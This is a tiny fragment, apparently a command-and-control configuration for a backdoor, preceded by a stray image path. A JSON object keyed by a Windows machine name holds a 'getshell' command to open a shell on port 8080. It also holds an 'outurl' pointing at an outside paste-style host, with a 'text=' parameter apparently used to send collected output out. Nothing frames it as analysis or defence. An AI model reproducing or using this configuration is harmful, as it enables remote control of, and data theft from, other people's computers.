 {
    "DESKTOP-0BEOBG6": {
        "getshell": "r t 127.0.0.1 8080~open"
    },
    "all": {
        "outurl": "http://kl1p.com/qwokc?save=true&id=&type=plain&name=qwokc&nid=&param=&client=web&text="
    }
}
